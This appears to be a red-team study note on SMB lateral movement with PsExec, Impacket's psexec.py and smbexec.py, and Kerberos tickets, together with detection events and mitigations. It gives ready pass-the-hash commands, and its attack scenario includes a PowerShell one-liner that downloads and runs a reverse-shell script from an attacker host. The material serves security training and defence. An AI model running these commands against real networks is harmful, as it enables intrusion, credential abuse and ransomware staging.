

# Lateral Movement via SMB: PsExec and SmbExec

## Introduction to SMB Lateral Movement
Server Message Block (SMB) is the backbone protocol for file sharing, printer sharing, and named pipe communication in Windows Active Directory environments. Because it is so heavily relied upon for inter-process communication and remote administration, port 445 (SMB) is almost universally open between internal subnets and endpoints.

For attackers, if administrative credentials or an NTLM hash are obtained, SMB provides one of the most reliable and oldest methods for lateral movement and remote code execution: PsExec and its variants.

While highly reliable and running entirely under the powerful `NT AUTHORITY\SYSTEM` context by default, traditional PsExec techniques are notoriously noisy, dropping executable artifacts to disk and creating obvious event logs. Consequently, modified versions like `smbexec` have been developed to minimize disk footprints.

---

## Architectural ASCII Diagram: The PsExec Attack Flow



---

## Under the Hood: How PsExec Works
To understand why PsExec is easily detected, one must understand its inner workings. When an attacker executes PsExec against a target, the following sequence occurs:

1. **Authentication**: The tool authenticates to the target via SMB using the provided credentials or hash.
2. **File Share Access**: It accesses the `ADMIN$` hidden share (which maps to `C:\Windows\`) and drops an executable file (by default, `PSEXESVC.exe`).
3. **Service Creation**: Using the Service Control Manager (SCM) via RPC over SMB (specifically the `svcctl` named pipe), it creates a new Windows Service pointing to the dropped executable.
4. **Service Execution**: The SCM starts the service. Because Windows services run as `SYSTEM` by default, the payload executes with the highest possible privileges.
5. **Communication**: The newly running service creates named pipes to handle `stdin`, `stdout`, and `stderr`, routing the I/O back to the attacker's console.
6. **Cleanup**: Upon termination, well-behaved implementations attempt to stop the service, delete the service from the SCM, and remove the executable from `C:\Windows\`.

---

## Prerequisites for SMB Lateral Movement
1. **Network Connectivity**: Port 445 (SMB) must be open. Port 139 (NetBIOS) is also sometimes used as a fallback.
2. **Privileges**: The executing user must have Local Administrator rights on the target system to access the `ADMIN$` share and interact with the Service Control Manager.
3. **File and Printer Sharing**: This Windows firewall rule group must be enabled on the target.
4. **UAC Remote Restrictions**: For local accounts (non-domain accounts), Remote UAC restrictions (`LocalAccountTokenFilterPolicy`) must be disabled to allow administrative token usage over the network.

---

## Tooling and Execution

### 1. Sysinternals PsExec (Native Windows)
The original `PsExec.exe` is a legitimate Microsoft Sysinternals tool. While often flagged by modern AV as a "HackTool" due to its abuse, it remains heavily used.

```cmd
# Executing an interactive command prompt as SYSTEM
PsExec.exe \\192.168.1.100 -u CORP\Administrator -p Password123 -s cmd.exe

# Executing a one-off command
PsExec.exe \\192.168.1.100 -u CORP\Administrator -p Password123 ipconfig
```

### 2. Impacket's `psexec.py` (Linux / Kali)
Impacket provides a python implementation of PsExec that is incredibly powerful because it inherently supports Pass-the-Hash (PtH) and Kerberos authentication.

```bash
# Pass-the-Password
psexec.py CORP/Administrator:Password123@192.168.1.100

# Pass-the-Hash (PtH)
psexec.py CORP/Administrator@192.168.1.100 -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
```
*Note: `psexec.py` drops a randomized executable payload to `ADMIN$` by default (e.g., `BVTmXsYh.exe`). This random string is a massive IoC for defenders.*

### 3. Impacket's `smbexec.py` (Stealthier Alternative)
To avoid dropping a highly-signatured executable to the `ADMIN$` share, `smbexec.py` takes a different approach. It still creates a Windows Service, but instead of pointing the service to an executable on disk, it points the `binPath` of the service directly to `cmd.exe`.

**How smbexec works:**
1. It creates a temporary service where the `binPath` is a `cmd.exe` command that echoes the desired command's output into a temporary file (e.g., in `C:\Windows\Temp\`).
2. The service is started (and immediately fails/stops because `cmd.exe` doesn't respond to service control signals, but the command still executes).
3. The script then pulls the resulting output file via SMB and displays it to the attacker.
4. It deletes the temporary file and the service.

```bash
# Pass-the-Hash with smbexec
smbexec.py CORP/Administrator@192.168.1.100 -hashes 00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c
```
*Advantage*: No binary is uploaded to `ADMIN$`.
*Disadvantage*: It creates and deletes a Windows Service for *every single command* you type, generating an enormous amount of noisy event logs.

---

## Pass-the-Ticket (PtT) over SMB
Just like WinRM, SMB lateral movement can be achieved without passwords or hashes if a valid Kerberos Ticket Granting Ticket (TGT) is available.

Using Impacket on Linux:
```bash
export KRB5CCNAME=/tmp/admin_ticket.ccache
# The -k flag tells Impacket to use Kerberos authentication
psexec.py -k -no-pass target-server.corp.local
```
*Note: Kerberos requires using the FQDN (Target Hostname) rather than the IP address.*

---

## Detection, OPSEC, and Mitigation

### OPSEC Considerations
PsExec and its variants are among the **noisiest** lateral movement techniques. They should generally be avoided in mature environments unless modified, obfuscated, or used as a last resort.

### Detection Artifacts
1. **Event ID 7045 (Service Creation)**: This is the primary detection mechanism. Any time a new service is installed on the system, this event is generated.
   - For `PsExec.exe`: Look for service name `PSEXESVC`.
   - For `psexec.py`: Look for randomized service names (e.g., `AgtXyZ`) and binary paths.
   - For `smbexec.py`: Look for a service named `BVTvcxz` (by default) where the executable path contains `%COMSPEC% /Q /c echo...`.
2. **File System Artifacts**: Dropped binaries in `C:\Windows\` (ADMIN$).
3. **Named Pipes**: Creation of specific named pipes for I/O routing over SMB.
4. **Antivirus / EDR**: Almost all EDRs aggressively flag `PSEXESVC.exe` or Impacket's dropped binaries.

### Mitigations
- **Restrict Local Administrator Rights**: Implementing the Principle of Least Privilege prevents lateral movement via SMB. Use LAPS (Local Administrator Password Solution) to randomize local admin passwords.
- **Network Segmentation**: Block SMB (Port 445) traffic between workstation subnets. Workstations rarely need to talk to each other over SMB; they should only talk to servers.
- **Monitor Service Creation**: Alert on unexpected `Event ID 7045`, especially those pointing to temporary files or `cmd.exe`.

---


## Real-World Attack Scenario
During a targeted ransomware simulation for a manufacturing company, the red team had compromised a human resources workstation and managed to dump the local SAM database. They discovered that the local Administrator password was identical across all workstations in the `192.168.20.0/24` subnet. Eager to expand their footprint, the attackers looked towards the production line control servers.

The organization had strict firewall rules preventing RDP access between subnets, but port 445 (SMB) was open for file sharing and printer mapping. The attacker opted to use `smbexec.py` from the Impacket suite to laterally move to the critical `PROD-CTRL-01` server. Unlike PsExec, which uploads a visible binary service to the target, `smbexec.py` is significantly stealthier as it executes commands directly via the Windows command processor without leaving persistent executable files on disk.

```bash
smbexec.py WORKGROUP/Administrator@192.168.20.55 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

The command succeeded, providing the attacker with an interactive, semi-functional command prompt running as `NT AUTHORITY\SYSTEM` on the target server. The attacker knew that `smbexec.py` works by echoing command output to a temporary file in the `C:\` drive, reading it over SMB, and then deleting it. 

```cmd
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
PROD-CTRL-01
```

To establish a more stable and interactive C2 channel without triggering the legacy antivirus software installed on the server, the attacker decided to execute a living-off-the-land (LotL) payload. They used the `smbexec` prompt to invoke a heavily obfuscated PowerShell reverse shell. 

```cmd
C:\Windows\system32> powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.10.100:8000/rs.ps1')"
```

The reverse shell connected back to the attacker's infrastructure. By choosing `smbexec` over traditional `psexec`, the attacker bypassed the standard detections that look for the `PSEXESVC.exe` file creation and service installation events. Within hours, the attackers used their SYSTEM access on the control server to pivot further into the OT network, demonstrating a critical path for a potential ransomware deployment that could halt the factory's physical operations.

## Chaining Opportunities
- **[[05 - Dumping LSASS Memory Mimikatz Procdump Comsvcs]]**: Once a SYSTEM shell is obtained via PsExec, attackers immediately dump LSASS to harvest more credentials.
- **Token Impersonation**: Since PsExec drops the attacker into a `SYSTEM` context, they can use tools like `Incognito` to steal tokens of logged-in Domain Admins.

## Related Notes
- [[02 - Lateral Movement via WinRM and PSRemoting]]
- [[04 - Lateral Movement via WMI WMIExec]]
- [[Kerberoasting and AS-REP Roasting]]
- [[Active Directory Enumeration with BloodHound]]

---
*End of Document*
